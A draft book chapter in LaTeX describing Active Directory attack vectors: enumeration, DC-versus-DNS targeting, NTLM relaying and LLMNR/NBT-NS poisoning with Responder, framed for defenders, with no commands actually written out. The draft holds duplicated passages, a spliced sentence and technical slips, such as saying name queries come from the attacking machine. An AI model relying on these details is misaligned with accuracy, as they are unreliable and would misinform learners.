\textbf{Local Security Authority (LSA)}

The Local Security Authority (LSA) is a security subsystem within the Windows operating system that manages and enforces local security policies. It's responsible for crucial tasks like authenticating users during sign-in, verifying passwords, and handling access tokens. Essentially, the LSA acts as a gatekeeper, controlling access to resources and ensuring only authorized users and processes can interact with the system. 

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{M} \\
\hline

\end{tabular}

\end{table}

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{N} \\
\hline

\end{tabular}

\end{table}

\textbf{NTDS.dit File}

NTDS.dit, short for New Technology Directory Services Directory Information Tree, is the central database for Microsoft Active Directory Domain Services (AD DS). It's a critical component that stores all the information about objects within an Active Directory domain, including users, groups, computers, and their associated attributes, including password hashes. This file essentially powers authentication and authorization across an organization's network, processing requests, storing password information securely, and managing group policy settings.

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{O} \\
\hline

\end{tabular}

\end{table}

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{P} \\
\hline

\end{tabular}

\end{table}

\textbf{Protocol Stack}

A protocol stack, also known as a network stack, is a hierarchical set of communication protocols organized into layers. Each layer performs a specific function and relies on the services of the layer below it, while providing services to the layer above. This layered approach simplifies the design, implementation, and troubleshooting of complex network communication systems.

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{Q} \\
\hline

\end{tabular}

\end{table}

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{R} \\
\hline

\end{tabular}

\end{table}

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{S} \\
\hline

\end{tabular}

\end{table}

\textbf{Service Principal Name (SPN)}

A Service Principal Name (SPN) is a unique identifier for a service instance, used in Active Directory for Kerberos authentication. It links a service to a specific service account, enabling clients to locate and authenticate the service. SPNs are crucial for services like SQL Server, IIS, and others that use Kerberos for secure communication.

\textbf{Signature Validation}

Kerberos signature validation is a crucial security mechanism within the Kerberos authentication protocol, ensuring the integrity and authenticity of messages and tickets exchanged during authentication and authorization processes. It involves verifying digital signatures on various Kerberos components, primarily the Privileged Attribute Certificate (PAC), to prevent malicious tampering and unauthorized privilege escalation.

\textbf{Shadow Domain Admin}

A shadow domain admin refers to a user account that possesses administrator-level privileges within a domain, but is not officially part of the designated domain administrator group. These accounts often go unnoticed by security teams because they don't appear in standard administrative listings, making them a potential security risk.

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{T} \\
\hline

\end{tabular}

\end{table}

\textbf{Total Domain Persistence}

Total domain persistence refers to an attacker's ability to maintain long-term, uninterrupted control over a compromised network or domain, even in the face of detection and attempts to remove them.

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{U} \\
\hline

\end{tabular}

\end{table}

\textbf{User and Entity Behavior Analytics (UEBA)}

User and Entity Behavior Analytics (UEBA) is a cybersecurity solution that uses machine learning and data analytics to detect suspicious activities by analyzing the behavior of users and other entities within an organization's network. By establishing baseline behaviors, UEBA identifies anomalies that may indicate security threats, such as insider threats or compromised accounts.

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{V} \\
\hline

\end{tabular}

\end{table}

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{W} \\
\hline

\end{tabular}

\end{table}

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{X} \\
\hline

\end{tabular}

\end{table}

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{Y} \\
\hline

\end{tabular}

\end{table}

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{Z} \\
\hline

\end{tabular}

\end{table}

 
Book

Title

MICROSOFT ACTIVE DIRECTORY: OVERVIEW OF ATTACK VECTORS

\textbf{Abstract. }Microsoft’s Active Directory (AD) has become a core component of IT infrastructure in many organizations across the globe. This centralization makes it a prime target for attackers, who are able to exploit a wide array of vulnerabilities and misconfigurations. To highlight the critical need for strong security, this section explores selected attack vectors and their impact in detail. It begins by introducing the underlying principles of Active Directory and then presents a conceptual model that illustrates how attack vectors are structured. Building on this model, this section examines techniques for enumerating Active Directory environments and then details several privilege escalation methods, such as PrintNightmare, NTLM Relay, and DACL Abuse, including the notorious DCSync attack. The focus is on attack paths that require minimal effort but present significant risk and potential for damage, underscoring the need for proactive defense.

\textbf{Keywords: }Active Directory Vectors of Attack Enumeration PrintNightmare NTLM Relay DACL Abuse PoC  Exploitation

\textbf{1 Introduction}

With its widespread adoption and vital role in managing authentication, user identities, and policies, Active Directory has become a primary target for adversaries. By the mid-2010s, the majority of large enterprises had integrated Active Directory into their environments, relying on it to store sensitive data such as user credentials and personal information.

Because Active Directory is so deeply woven into corporate IT, compromising it often equates to full control over the entire network. Even default configurations can provide attackers with relatively straightforward paths to escalate privileges and gain persistence. Over time, common configuration errors and insufficient hardening introduce even more vulnerabilities, making the environment even more susceptible to compromise.

Attackers frequently leverage both well-known and newly discovered vulnerabilities in protocols such as NTLM and Kerberos. In recent years, high-profile vulnerabilities like ZeroLogon and PrintNightmare have further highlighted these weaknesses, and the rapid pace of new discoveries continues to challenge defenders. While Microsoft issues security updates, many of these attack vectors remain visible due to the complexity and scale of most environments.

To improve the security of Active Directory deployments and emphasize the importance of defensive measures, this section explains prevalent attack vectors and their consequences. It introduces essential concepts and then establishes a model for understanding attack vector structure. Enumeration techniques are explored as a foundation for privilege escalation tactics, which are divided into the key aspects of Active Directory operations: authentication, object access, and service access.

\textbf{2 Fundamentals}

A solid grasp of Active Directory is necessary to understand both the attacker’s and defender’s view. Active Directory follows a hierarchical model composed of both logical and physical elements. At the physical layer, domain controllers play a crucial role, handling requests and enforcing policies.

Active Directory supports two primary authentication protocols: the newer Kerberos and the older NTLM. Kerberos is designed for ticket-based authentication, while NTLM persists for legacy compatibility and remains relevant to many attacks. Understanding how Ticket-Granting Tickets (TGTs) operate is essential for comprehending the mechanics of several privilege escalation techniques.

For name resolution, Active Directory relies on DNS, but legacy protocols like LLMNR and NBT-NS still exist as fallback mechanisms and are often targeted during attacks. Multiple client-server protocols underpin Active Directory’s operations, including SMB (Server Message Block), which has its own set of vulnerabilities and defensive considerations such as SMB signing. 

Certificates, managed by the Active Directory Certificate Services (AD CS) are widely used for authentication and are an integral part of modern-day attacks and defenses. Proper configuration and understanding of certificate enrollment processes is essential for protecting the environment.

Permissions within Active Director are controlled through detailed access controls, and misconfigurations can easily lead to excessive privileges and unintended exposure. Defenders must have a deep understanding of these permission models to identify and remediate risky delegations or access grants.

\textbf{3 Concept of Attack Vectors}

With these fundamentals in place, it is crucial to define a structured approach to understanding attack vectors in Active Directory. An attack vector in this context refers to the pathway or sequence of actions that an adversary can follow to compromise, escalate privileges, or persist within vectors, but they generally emphasize the sequential nature of reconnaissance, exploitation, and post-exploitation activities.

By using a structured model, security professionals can better anticipate likely attack paths, implement targeted mitigations, and prioritize defensive efforts based on the most impactful threats.

<IMAGE>

As illustrated in the domain attack lifecycle, every attack path targeting Active Directory begins with, what I believe to be the most crucial step when in the pre-attack phase: reconnaissance.

During this stage, the primary goal of recon is to gather as much information as possible about the environment you plan to target. This information gathering process allows you to map attack surfaces and enables the identification of potential attack vectors and the creation of strategic attack plans. Once you have obtained access - either by compromising an existing account you found to be vulnerable or by establishing a toehold - the focus typically shifts to privilege escalation. Here, your objective is to seize an account with domain administrator rights, granting you ultimate control over the now compromised domain. Subsequent stages in the model include establishing persistence and post-exploitation activities which are carried out in the post-attack phases of the attack chain lifecycle.

\textbf{4 Enumeration}

Enumeration serves as the foundation for most attack chains and typically begins with the discovery of domain controllers within an Active Directory forest. In the minds of many, domain controllers (DCs) are - and will always be - the primary critical attack point that attackers focus on due to the immense concentration of authority and sensitive data they possess. These servers manage authentication, enforce security policies, and maintain both the Global Catalog Services (GCS) and the directory database for the entire domain, making them the ultimate target for adversaries seeking to escalate privileges or further compromise the environment by dropping a malicious payload on the network.

However, some argue that DNS should actually be the attacker’s first focus. In many Windows-based Active Directory environments, DNS isSome would even argue in contention that DNS should be the attacker’s first thing to attack and it is found in many AD Windows-based environments, DNS is tightly integrated with the operating systems on which the DCs run. Because Active Directory relies so heavily on DNS for virtually all name resolution, service, location, and even authentication processes, compromising DNS can disrupt or redirect nearly every operation in the forest. By targeting DNS, attackers can potentially poison records or poison the cache, can attempt remote authentication requests, or gain insights into the network’s structure, the protocols it uses, and the services it runs, setting the stage for attack expansion:  broader compromise for more targeted attacks.

When comparing attack vectors in Active Directory environments - Domain Controllers versus DNS - both are critical targets; however, they serve different roles and present unique opportunities and challenges for both attackers and defenders.

Ultimately, whether an attacker targets DCs or DNS first often depends on the environment, their goals, and the security posture of the defender’s organization. Both represent high-value targets, and a successful compromise of either can quickly lead to full domain domination.

Domain Controllers: The Heart of the Domain

Why Attack DCs First

\begin{itemize}
    \item \textbf{\textbf{Centralization of secrets: }DCs store the Active Directory database (NTDS.dit), which includes password hashes, ACLs, group membership attributes, and full directory data.}
    \item \textbf{\textbf{Privilege escalation gateways: }Compromising a DC can immediately grant domain admin rights via techniques like DCSync, Golden Ticket, or direct NTDS.dit extraction.}
    \item \textbf{\textbf{Single chokepoint: }DCs mediate all authentication and authorization - control them, and you control the domain.}
\end{itemize}

DNS Servers: The Network Puppet Master

Why Attack DNS First
\begin{itemize}
    \item \textbf{Network-wide Impact:} DNS handles every service's name resolution, compromising it can effectively redirect traffic, intercept credentials over the wire or hijack services.
    \item \textbf{Reconnaissance Value:}
    \begin{itemize}
        \item DNS queries, zone transfers, and cache snooping reveal domain structure and service hosts.
    \end{itemize}
    \item \textbf{Stealth and Persistence:} DNS cache poisoning allows Man-in-the-Middle (MiTM) attacks or hijacking attacks implicitly, without touching high-valued systems.
\end{itemize}

What to Attack First?

\begin{table}
\centering

\begin{tabular}{| l | l | l |}
\hline
\textbf{Factor} & \textbf{DC Attack} & \textbf{DNS Attack} \\
\hline
\textbf{Goal} & Full domain takeover & Service redirection, intel gathering \\
\hline
\textbf{Effort} & High (hardening, monitoring) & Moderate (DNS is often less protected) \\
\hline
\textbf{Stealth} & Lower & Higher (DNS is low-visibility) \\
\hline
\textbf{Reward Scope} & Maximum (admin privileges) & Partial (initial access / network pivots) \\
\hline
\textbf{Detection Risk} & High & Medium \\
\hline

\end{tabular}

\end{table}

\textbf{1 Goal}

\textbf{DC Attack: Full Domain Takeover}

\begin{itemize}
    \item \textbf{\textbf{Attacker Impact:}}
Compromising a DC grants the attacker full administrative access to the Active Directory environment. They can essentially manipulate user, service, and group accounts, extract password hashes, change group memberships, deploy malware, and establish persistence at the highest level in the domain. With full DC control you are master of the domain. You “own” the entire network - escalating privileges, accessing all resources with little to no questions asked, and evading future detection as, like spokes on a wheel, you span out for further attack.

    \item \textbf{\textbf{Defender Impact:}}
The defender faces catastrophic risk: complete and total loss of CIA: confidentiality, integrity, and availability. All users and resources can be compromised. Loss of trust and loyalty from users withers away, and recovery often requires a complete rebuild of a sanitized domain, resetting all credentials, and restoring from a trusted backup source (if possible). Incident response and remediation are time-consuming, expensive, and may involve regulatory notification.

\end{itemize}

\textbf{DNS Attack: Service Redirection and Intel Gathering}

\begin{itemize}
    \item \textbf{\textbf{Attacker Impact:}}
Gaining control or poisoning DNS allows attackers to redirect legitimate traffic to malicious botnets controlled over a C2. This malicious infrastructure sets the stage for further attacks the attacker can deploy such as phishing or spearphishing campaigns, Man-in-the-Middle (MiTM), credential harvesting, and more. While it does not immediately grant domain admin rights, it does serve as a crucial stepping stone for credential theft or lateral movement.

    \item \textbf{\textbf{Defender Impact:}}
Compromised DNS can be subtle yet damaging. Users may unknowingly send sensitive data to malicious endpoints or have their credentials intercepted. Attackers can perform internal reconnaissance with little visibility. As a defender, you must monitor DNS logs, implement layered defenses or defense in depth strategies like DNSSEC, and educate users about suspicious activities and red flags they should be on the lookout for.

\end{itemize}

\textbf{2 Effort}

\textbf{DC Attack: High (hardening, monitoring)}

\begin{itemize}
    \item \textbf{\textbf{Attacker Impact:}}
Attacking DCs typically requires bypassing multiple layers of security, such as strong network segmentation, patching, Multi-Factor Authentication (MFA), and extensive monitoring. Tools like EDR, SIEM, and audit policies make detection time more likely. Attackers must invest significant time in reconnaissance, credential harvesting, privilege escalation, and persistent - not easy tasks to implement and deploy correctly.

    \item \textbf{\textbf{Defender Impact:}}
Defenders often prioritize hardening and monitoring DCs, implementing principle of least privilege, role-based access control (RBAC), frequent auditing, and clean backup strategies; however, this high effort must be sustained and regularly reviewed for it to be effective in the long-run. Any oversight can still be catastrophic, but increased effort here directly reduces attackers success rates.

\end{itemize}

\textbf{DNS Attack: Moderate (DNS is often less protected)}

\begin{itemize}
    \item \textbf{\textbf{Attacker’s Impact:}}
DNS servers are frequently overlooked in security strategies, often running with default configurations and minimal monitoring. Attackers may exploit weaknesses in zone transfers, cache poisoning attacks, or even vulnerabilities in DNS services with less resistance. This makes initial compromise much easier to obtain and is less risky.

    \item \textbf{\textbf{Defender Impact:}}
Defenders sometimes deprioritize DNS security, leaving default admin credentials, failing to patch vulnerabilities, or omitting monitoring. Proper logging, access controls, and DNSSEC are often missing. This "moderate" effort from defenders means attackers may gain a foothold with less resistance compared to DCs.

\end{itemize}
\textbf{3 Stealth}

\textbf{DC Attack: Lower}

\textbf{Attacker Impact:}

Activities targeting DCs (dumping hashes, altering accounts, running unusual processes) are likely to generate alerts on SIEMs, EDR platforms, or via Windows event logs. Defensive solutions focus heavily on DCs due to their importance. Attackers must use advanced techniques (e.g., living off the land, evasion) but remain at a higher risk of detection.

\textbf{Defender Impact:}

Defenders benefit from high visibility here—DCs are watched closely. Anomalies can trigger incident response quickly; however, defenders must tune alerts to minimize false positives and ensure coverage for all DC-related activities.

\textbf{DNS Attack: Higher (DNS is low-visibility)}

\textbf{Attacker Impact:}

DNS attacks often fly under the radar. Many organizations have limited or no DNS logging, and attacks like cache poisoning or internal record manipulation may not be immediately apparent. Attackers can maintain stealth, perform extensive reconnaissance, or reroute traffic for extended periods without detection.

\begin{itemize}
    \item \textbf{\textbf{Defender Impact:}}
The lack of comprehensive DNS monitoring places defenders at a disadvantage. Without proper DNS log analysis and alerting, subtle DNS manipulations or abuses may go unnoticed until significant damage occurs or attackers escalate their attack chain.

\end{itemize}

\textbf{4 Reward Scope}

\textbf{DC Attack: Maximum (admin privileges)}

\begin{itemize}
    \item \textbf{\textbf{Attacker Impact:}}
Full control over the domain, including all users, computers, Group Policies, trust relationships, and sensitive data. Attackers can persist indefinitely, create hidden backdoors, exfiltrate data, and disrupt business operations at will.

    \item \textbf{\textbf{Defender Impact:}}
The impact is existential. A compromised DC means that the entire domain is suspect—there are mass password resets, potential business downtime, and large-scale remediation are required. The attacker can "pwn" the environment even after initial clean-up if persistence was well-established.

\end{itemize}

\textbf{DNS Attack: Partial (initial access / network pivots)}

\begin{itemize}
    \item \textbf{\textbf{Attacker Impact:}}
DNS attacks rarely grant immediate admin access. However, they provide critical infrastructure for further exploitation: credential harvesting (via traffic redirection), discovery of internal hosts and services, and enabling lateral movement toward higher-value targets like DCs.

    \item \textbf{\textbf{Defender Impact:}}
While the immediate impact may seem limited, DNS compromise can facilitate broader attacks if not detected early. Defenders risk losing visibility over attacker movements, allowing attackers to escalate and reach domain-level compromise over time.

\end{itemize}

\textbf{5 Detection Risk}

\textbf{DC Attack: High}

\begin{itemize}
    \item \textbf{\textbf{Attacker Impact:}}
Any action against DCs—especially privilege escalation, credential dumping, or unauthorized configuration changes—is likely to trigger detection tools and response teams. Attackers must use stealth and precision, but even so, their activities are more visible and risky.

    \item \textbf{\textbf{Defender Impact:}}
High risk for the attacker translates to high alert opportunities for the defender. Proactive monitoring, alerting, and threat hunting around DCs increase the chance of early detection and response.

\end{itemize}

\textbf{DNS Attack: Medium}

\begin{itemize}
    \item \textbf{\textbf{Attacker Impact:}}
DNS compromises are less likely to trigger immediate alarms, especially if defenders lack DNS logging or anomaly detection. However, high-value DNS changes or widespread poisoning may eventually be noticed, raising risk for the attacker over time.

    \item \textbf{\textbf{Defender Impact:}}
The defender’s challenge is moderate: unless DNS is actively monitored and logs are reviewed, attacks can persist for longer. As organizations mature their DNS security, detection risk increases for attackers, but still typically lags behind DC detection maturity.

\end{itemize}
\textbf{TL;DR}

\begin{table}
\centering

\begin{tabular}{l l l}
\textbf{Factor} & \textbf{DC Attack}\textbf{(Attacker/Defender Impact)} & \textbf{DNS Attack}\textbf{(Attacker/Defender Impact)} \\
\hline
\textbf{Goal} & \textbf{Attacker: }Full domain control;\textbf{Defender: }Total compromise risk & \textbf{Attacker: Malicious }redirection \& recon;\textbf{Defender: }Traffic hijack, stealth recon \\
\hline
\textbf{Effort} & \textbf{Attacker: }High technical bar;

\textbf{Defender: }Must prioritize \& maintain hardening & \textbf{Attacker: }Moderate bar;\textbf{Defender: }Often overlooked, easier to exploit \\
\hline
\textbf{Stealth} & \textbf{Attacker: }Risk of fast detection;\textbf{Defender: }High monitoring potential & \textbf{Attacker: }Greater stealth;\textbf{Defender: }Lower visibility, harder to detect \\
\hline
\textbf{Reward} & \textbf{Attacker: }Admin, persistence, all data;\textbf{Defender: }Threat to entire domain & \textbf{Attacker: }Lateral movement, information gathering;\textbf{Defender: }Initial toehold/foothold, can escalate \\
\hline
\textbf{Detection} & \textbf{Attacker: }High chance of being caught if stealth has not been taken into consideration;\textbf{Defender: }Strong alerting opportunities & \textbf{Attacker: }Lower chance of early detection;\textbf{Defender: }Needs better monitoring for detection controls in place; \\

\end{tabular}

\end{table}

One common technique is performing a network port scan, or a host discovery scan - for example, using tools like `nmap` - to identify available hosts and their open ports. This process reveals the network’s structure: the protocols in use, ad available services. With experience, you can often associate certain ports with specific Active Directory services. Another example being the presence of port numbers, such as port 88 which indicates support for the Kerberos authentication protocol and almost certainly reveals a domain controller. Similarly, port 389 identifies a system running the \textit{\textbf{Lightweight Directory Access protocol (LDAP)}}, another strong indicator of a domain controller, or Active Directory presence.

IF a port scan does not directly identify domain controllers, alternative approaches can be deployed. You have options, such as querying the Domain Name System (DNS) on port 53 to uncover the addresses of domain controllers (and this is their raw IP, DNS, and gateway server addresses - not addresses that are proxied or NAT’d). You can also utilize the legacy NetBIOS protocol on port 139 for similar purposes. These methods are just a tiny sampling of the available ways in which one can collect information through simple, tailored, and targeted port scans.

\textbf{Lightweight Directory Access Protocol (LDAP)}

LDAP itself is a rich source of domain information, and even unauthenticated users can often reveal basic details about the domain, such as DNS server addresses and the functional level of domain controllers. The latter may even reveal the presence of outdated systems - valuable intelligence if you seek out vulnerable targets.

This is where we switch our hats from white to black, purple, or gray: Once you (using your newly gained perspective of an attacker) gain access to an account, even one with limited privileges, you typically perform additional port scans, or you start to enumerate the information gathered from initial recon and port scans using tools like \texttt{ldapdomaindump} which allows for the extraction of detailed information about the domain’s users, groups, computers, Group Policy Objects (GPOs), trust relationships, and many more attributes. These outputs can often be visualized automatically in a browser, streamlining your analysis efforts.

A key aspect of enumeration in this context is the mapping and analysis of relationships identified between domain objects. Understanding these relationships is essential for uncovering indirect paths to privilege escalation. In recent years, specialized tools such as BloodHound and its data collection companion, SharpHound, have revolutionized this process. BloodHound leverages graph theory equations to visualize relationships within Active Directory, making it very possible for you to analyze attack paths and privilege relationships interactively. Data for BloodHound can be gathered by users with minimal rights, and results from LDAP-based enumeration can also be imported, further simplifying the attack workflow.

Together, these enumeration strategies provide a starting foundation for understanding and assessing the security posture of an Active Directory environment. Depending on the specific scenario, attackers or security professionals may choose from a wide array of techniques to tailor their reconnaissance efforts.

\textbf{4 Privilege Escalation}

Once domain enumeration is complete, attackers shift their focus to privilege escalation - the phase where initial access is leveraged to gain higher permission sets and control within the environment. Active Directory is especially a juicy and attractive target as it offers numerous pathways to escalate privileges due to its inherent complexities and the breadth of client-server interactions it supports.

Privilege escalation attacks can be broadly categorized into \textbf{three major }areas within AD operations:

\textbf{1. Credential Request: }Abusing authentication mechanisms to obtain credentials or impersonate users.

\textbf{2. Object Access: }Manipulating permissions, delegations, or vulnerable objects to elevate privileges.

\textbf{3. Service Access: }Exploiting AD-integrated services or protocols to further escalate access.

This model aligns with modern frameworks like the MITRE ATT\&CK framework, with an added focus on service interactions, recognizing the unique attack opportunities they present in Active Directory.

\textbf{4.1 Credential Request}

One of the most potent privilege escalation techniques in Active Directory targets the authentication protocols themselves. \textbf{NTLM relaying }remains a classic and highly effective example of this attack.

\textbf{NTLM Relaying Explained}

NTLM relaying is an attack technique where you intercept authentication attempts over the network and then forward them - or \textit{relay} them - to another one of your systems, effectively tricking your target into authenticating you to a different AD resource.

Here’s how this attack typically works in an Active Directory-related context:

\textbf{1. Network Access: }The attacker needs access to the internal network, but doesn’t require valid AD credentials.

\textbf{2. Listening for Authentication Traffic: }Using a tool like \textbf{Responder}, the attacker can monitor network traffic for any related NTLM authentication attempts. This often involves exploiting common misconfigurations like enabled LLMNR or NetBIOS Name Service *NBT-NS), both of which remain legacy name resolution protocols still in use on many modern networks in this present time.

\textbf{3. Intercept and Relay: }When a user or service tries to authenticate.using NTLM, the attacker can intercept the request and relay it to a vulnerable service (such as SMB) onto another machine. If SMB signing is disabled on the target (the default in many environments for performance reasons), the relay is successful.

\textbf{4. Gaining Access: }The attacker can now authenticate as the intercepted user via impersonation, and potentially with administrative rights, on the relayed-to machine. In some cases, this can also result in full domain compromise and takeover.

Many will agree that this attack is effective for a couple of reasons:

\textbf{1. No Credentials Needed: }The attacker doesn’t need an initial set of cracked or stolen credentials or hashes - just network access and the right environmental conditions.

\textbf{2. Common Misconfigurations: }Every network has them, and many organizations, out of convenience, or laziness, opt for the continued support of legacy name resolution protocols like LLMNR/NBT-NS, leaving them enables yet fail to enforce SMB signing (a recommended best practice if LLMNR/NBT-NS must be used), making them vulnerable by default, if you think about it.

\textbf{3. Prevalence: }Studies and real-world incident data consistently show NTLM relaying as one of the most frequent causes of domain compromise, especially in environments where security hardening is ignored and neglected, or not taken seriously.

\textbf{A Real-World Example}

One of the most potent privilege escalation techniques in Active Directory targets the authentication protocol themselves. NTLM Relaying remains a classic, and for this scenario, we will connect to a simulated corporate network (which can be done either from a wired or wireless network), and we will quietly run the Responder tool. At the same time, on our secondary virtual machine, we will mimic an active and legitimate user who browses a network share or opens a document from a file server. Their computer will attempt to resolve the server's hostname through primary DNS configurations and, due to LLMNR/NBT-NS being enabled, will send out a broadcast to all on the wire. Our attacking machine will respond first, intercepting the authentication attempt. The Responder tool will capture our target user's NTLM hash and will attempt to relay it to another of our systems on the network with SMB signing disabled, authenticating the remote user-who might be a Domain Admin (DA) or using an account with administrative privileges applied. Every network has cracks, and if the conditions are right, that attacker now has the same level of access as the relayed user on the target system, which can quickly snowball into a full domain compromise.

\begin{figure}
    \centering
    \includegraphics[width=0.75\linewidth]{responder.png}
    \caption{Enter Caption}
    \label{fig:placeholder}
\end{figure}

Here is how this attack scenario will plan out, but first, a quick overview of some DNS fundamentals you must understand. Name Resolution (abbreviated as NR) is a series of procedures conducted by a machine when it tries to retrieve another host's IP address by its hostname. On Windows machines, the procedure will roughly be as follows:
\begin{itemize}
    \item The hostname fileshare's IP address is required.
    \item The local host file will be checked for suitable records.
    \item If no records are found, our machine will move on to the local DNS cache, which archives recently resolved domain hostnames, both internal and external to the DNS server.
    \item No local DNS records found? A query will be sent to the configured DNS server.
    \item If all else fails, our machine will send a multicast query asking other machines on the same network leg for the fileshare's IP address.
\end{itemize}

As can be seen, the final fallback when resolving a hostname's IP address is using multicast NR. This is managed by three main protocols: NBT-NS (NetBIOS Name Service), LLMNR (Link-Local Multicast Name Resolution) and mDNS (multicast DNS).

The three protocols are used adjunctively for two main reasons: legacy support and compatibility. NBT-NS was created in the early 1980s and is somewhat in fitting with today's standards. As the protocol was falling out of favor, Windows machines started implementing NBT-NSs successor, LLMNR (still supporting NBT-NS for communications purposes with older machines). On the other hand, most Linux-based machines implemented mDNS instead. Eventually, with the release of Windows 11, Microsoft added support for mDNS as well to enhance overall compatibility with legacy systems left on the domain.

Before we go over this attack process, it is first necessary for us to understand exactly how attackers leverage the LLMNR, NBT-NS, and mDNS networking protocols to establish initial access. Once an attacker breaches an AD administered local network, they will want to gain as much privileges on the domain as quickly and as quietly as possible. LLMNR/NBT-NS poisoning is just one of the attack methods used to make this happen.

The LLMNR/NBT-NS Network Protocols
Link-Local Multicast Name Resolution (LLMNR) and NetBIOS Name Service (NBT-NS) are two name resolution services that Windows machines use to identify host addresses on a network when primary DNS resolution fails. LLMNR and NetBIOS are enabled by default on modern Windows computers.

When a user requests a named resource, the name of this resource needs to resolve to an IP address so that the user's computer knows where to send the network traffic. To resolve the name, the user's computer will take the following actions in order of priority:

\begin{enumerate}
    \item Check if the name resolves to the computer itself (localhost).
    \item Check to see if the name is in the cache or manually specified in the system's host file (\verb|C:\Windows\System32\drivers\etc\hosts|).
    \item Send a lookup request to the configured server.
    \item Broadcast an LLMNR name query to all machines on the local network.
    \item Broadcast an NBT-NS name query request to all machines on the local network.
\end{enumerate}

The LLMNR and NBT-NS queries will be sent to all other hosts on the local network, asking them to respond if they know the IP of the hostname being queried. Attackers can exploit this by responding with their own IP address to direct subsequent network traffic for the requested resource to their machine.

\subsection{How an LLMNR and NBT-NS Poisoning Attack Works}
LLMNR (Link-Local Multicast Name Resolution) and NBT-NS (NetBIOS Name Service) poisoning is a network attack technique that exploits how Windows systems attempt to resolve hostnames when DNS resolution fails.

When a Windows machine cannot find a hostname in DNS, it broadcasts queries using LLMNR or NBT-NS to all other machines on the local network, asking: \textit{"Do you know the IP address of this hostname?"} An attacker can intercept these broadcasts and reply with their own IP address, tricking the victim machine into sending sensitive authentication data.

In this example, we will walk through the process of performing an LLMNR/NBT-NS poisoning attack using \textbf{Responder},
 a popular penetration testing tool designed to capture authentication credentials from unsuspecting systems.

 \subsection{LLMNR/NBT-NS Poisoning Attack Chain}
 \subsubsection{Step 1: Starting the Poisoner}
 To begin the attack, we launch Responder with parameters telling it to listen on our chosen network interface (in this example, \texttt{eth0.} Responder will passively listen for LLMNR/NBT-NS queries, and, by default, also start multiple fake services such as Server Message Block (SMB), HyperText Transfer Protocol (HTTP), and File Transfer Protocol (FTP). These fake services will later receive authentication attempts from victims.

 \textbf{Command:}
 




\subsection{LLMNR, NBT-NS, and mDNS Query Process}

On our Windows 11 virtual machine, we mistyped a shared folder's name on purpose as \texttt{"filesahre"} instead of the correct way: \texttt{"fileshare,"} resulting in a series of mDNS, NBT-NS, and LLMNR queries. Notice that all of the queries are sent from our attacking machine to designated multicast addresses.

When attempting to access a shared folder on a Windows 11 virtual machine using a mistyped name like \textbackslash{}filesahre, the system will trigger a series of name resolution attempts, including LLMNR, NBT-NS, and mDNS. 

The process is as follows:
\begin{enumerate}
    \item \textbf{Local Resolution First:} The VM will initially try to resolve \texttt{fileshare} through its local DNS cache and configured DNS servers.
    \item \textbf{Fallback to Local Link Protocols:} If DNS fails, the system resorts to Link-Local Multicast Name Resolution (LLMNR) and NetBIOS Name Service (NBT-NS) to attempt resolution on the local network segment.
    \item \textbf{Multicast Queries:}
    \begin{enumerate}
        \item \textbf{LLMNR:} Sends multicast queries to IPv4 address \texttt{224.0.0.252} or IPv6 address \texttt{ff02::1:3} on UDP port 5355.
        \item \textbf{NBT-NS:} Uses broadcast or multicast messages over the local subnet, typically over UDP port 137.
        \item \textbf{mDNS:} Sends IP multicast UDP packets to IPv4 address \texttt{224.0.0.251} or IPv6 address \texttt{ff02::fb} on UDP port 5353.
    \end{enumerate}
\end{enumerate}


\textbf{Name Resolution }(abbreviated as \textbf{NR}), is a series of procedures conducted by a machine when it tries to retrieve another host’s IP address by its hostname. On Windows machines, the procedure will roughly be as follows:

1. The hostname \textit{fileshare’s }IP address is required.

2. The local hostfile will be checked for suitable records.

3. If no records are found, our machine will move on to the local DNS cache, which archives recently resolved domain hostnames, both internal and external to the DNS server.

4. No local DNS records found? A query will be sent to the configured DNS server.

5. If all else fails, our machine will send a multicast query asking other machines on the same network leg for the \textit{fileshare’s} IP address.

As can be seen, the final fallback when resolving a hostname’s IP address is using multicast NR. This is managed by three main protocols: \textbf{NBT-NS (NetBIOS Name Service), LLMNR (Link-Local Multicast Name Resolution), }and \textbf{mDNS (multicast DNS).}

The three protocols are used adjunctively for two main reasons: legacy support and compatibility and performance. NBT-NS was created in the early ‘80’s and is somewhat in fitting with today’s standards. As the protocol was falling out of favor, Windows machines started implementing NBT-NS’s successor, LLMNR (still supporting NBT-NS for communications purposes with older machines). On the other hand, most Linux-based machines implemented mDNS instead. Eventually with the release of Windows 11, Microsoft added support for mDNS as well to enhance overall compatibility with legacy systems left on the domain. 

Let’s see these protocols in action:

On our Windows 11 virtual machine, we mistyped a shared folder’s name on purpose (\textit{\textbackslash{}filesahre} instead of the correct way: \textbackslash{}\textit{fileshare}), resulting in a series of mDNS, NBT-NS, and LLMNR queries. Notice that all of the queries are sent from our attacking machine to designated multicast addresses.

\textit{\textbf{Figure X. }}\textit{Network capture of a Windows 11 machine trying to resolve an unknown hostname using multicast name resolution protocols}

You might be wondering why this is a problem. NBT-NS, LLMNR, and mDNS broadcast a query to the entire intranet, but no measures are taken to verify the integrity of the responses. This means that we can effectively exploit this mechanism by listening to such queries and spoofing the responses - tricking our mock user into trusting malicious server requests. Usually this trust will be used to steal their credentials.

The tool of choice for this scenario will be Python-based Responder on our Kali Linux machine.

\textbf{Common Abuse Cases}

There are many occasions in which a machine will resort to multicast NR, some of which are:

\textbf{Mistyping}

If a user mistypes the name of a legitimate host, usually no relevant host record will be found and the machine will resort to using multicast NR. This is a rather weak use case because we will have to wait for an error to appear on our mock victim user’s side.

\textbf{Misconfigurations}

False configurations on either the DNS server or our mock user’s client-side can lead to problems in NR and force the client to rely on multicast name queries for resolution.

\textbf{WPAD Protocol}

